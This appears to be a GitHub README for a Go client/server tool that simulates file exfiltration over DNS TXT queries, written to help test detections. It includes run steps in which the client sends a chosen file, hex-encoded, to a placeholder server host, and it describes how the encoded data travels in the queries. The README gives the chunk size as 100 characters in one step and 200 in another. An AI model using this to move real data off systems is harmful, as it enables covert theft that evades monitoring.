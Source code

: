 # dns-TXT-exfi-test
Simple client/server in golang to help with testing data exfil detections over DNS TXT records. Note: this utility is intended for detections testing rather than for use in red team operations, as this does not contain opsec controls (uses simple hex encoding).

## Steps:
On Server Host:

1. > git clone https://github.com/cedowens/dns-TXT-exfi-test

2. > cd dns-TXT-exfil-test/server

3. > go get github.com/miekg/dns

4. > go build

5. > ./server


On Client Host:

1. > git clone https://github.com/cedowens/dns-TXT-exfi-test

2. > cd dns-TXT-exfil-test/client

3. > sed -i -e 's|10.10.10.10|IP_OF_YOUR_SERVER_HOST|g' client.go

4. > go build

5. > ./client [path_to_file_to_exfil]

------------

## Under The Hood

From a detections perspective, this is how this tool works:

1. The client takes the file, breaks it into 100 character hex encoded chunks

2. The client then takes each 100 character chunk and sends it in a DNS TXT record request as follows:

`[hex_file_data].macconsultants.com,  TYPE: TXT, CLASS IN`

3. The server takes each 200 character hex encoded chunk, unhexlifies it, and writes it to a file in the current directory named "outfile"

4. The server also sends a TXT answer to that query as follows:

`[hex_file_data].macconsultants.com, TYPE TXT, CLASS IN`


This can be a helpful way to validate any detections around suspicious DNS TXT traffic
